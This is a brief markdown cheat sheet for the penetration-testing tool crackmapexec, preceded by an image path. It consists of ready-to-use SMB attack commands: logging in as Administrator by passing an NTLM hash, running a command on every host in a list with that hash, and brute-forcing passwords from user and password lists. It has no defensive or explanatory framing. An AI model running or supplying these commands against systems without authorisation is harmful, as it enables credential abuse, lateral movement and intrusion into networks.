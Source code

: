 # crackmapexec

## SMB

```csharp
crackmapexec smb <TARGET_IP> -d <DOMAIN> -u Administrator -H <NTLM HASH>
```

### Executing a command on a provided hosts list

```csharp
crackmapexec smb <HOST.lst> -d domain.com -u Administrator -H <NTLM HASH> -x 'whoami'
```

### Bruteforce attack

```csharp
crackmapexec smb <TARGET_IP> -u <user.lst> -p <pass.list>
```

